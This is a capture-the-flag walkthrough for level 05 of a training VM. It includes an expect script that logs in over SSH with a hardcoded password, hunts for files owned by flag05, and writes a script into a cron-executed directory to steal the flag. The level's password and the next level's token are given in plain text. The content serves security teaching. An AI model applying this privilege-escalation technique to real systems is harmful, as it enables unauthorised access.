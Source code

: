 # Level 05
- In the shell of your choice run twice if needed the script attached or follow the steps bellow using your VM IP address to get the flag, also root privileges and some dependencies may be needed to install before
	```sh
	$ chmod u+x script.sh
	$ ./script.sh
	$ cat script.sh
	#!/usr/bin/expect -f
	set ip 192.168.1.103
	spawn ssh -o "StrictHostKeyChecking no" level05@$ip -p 4242 "find / -user 'flag05' -print 2>/dev/null -exec cat \{\} \\\; | head -7 ; find / -name level05 -print 2>/dev/null -exec cat \{\} \\\; | head -2 ; mkdir -p /tmp/level05 ; cd /tmp/level05 ; chmod 777 . ; echo 'getflag > /tmp/level05/flag' > /opt/openarenaserver/level05.sh ; sleep 125 ; cat /tmp/level05/flag"
	expect "sword:"
	send "ne2searoevaevoem4ov4ar8ap\r"
	interact
	```
- Find any files whoes owner is user "flag05"
	```sh
	$ find / -user "flag05" -print 2>/dev/null
	```
- View the content of this found file
	```sh
	$ cat /usr/sbin/openarenaserver
	```
- Find any files whoes name is "level05"
	```sh
	$ find / -name level05 -print 2>/dev/null
	```
- View the content of this found file
	```sh
	$ cat /var/mail/level05
	```
- Make a directory in `/tmp` location and set `777` access to it
	```sh
	$ mkdir -p /tmp/level05
	$ chmod 777 /tmp/level05
	```
- Create a script in `/opt/openarenaserver` location with `getflag` processing and wait for a few minutes
	```sh
	$ echo "getflag > /tmp/level05/flag" > /opt/openarenaserver/level05.sh
	```
- View the content of the newely created `flag` file in the `/tmp/level05` directory
	```sh
	$ cat /tmp/level05/flag
	```
- With the token provided `viuaaale9huek52boumoomioc` switch to the next user level
	```sh
	$ su level06
	Password: viuaaale9huek52boumoomioc
	```
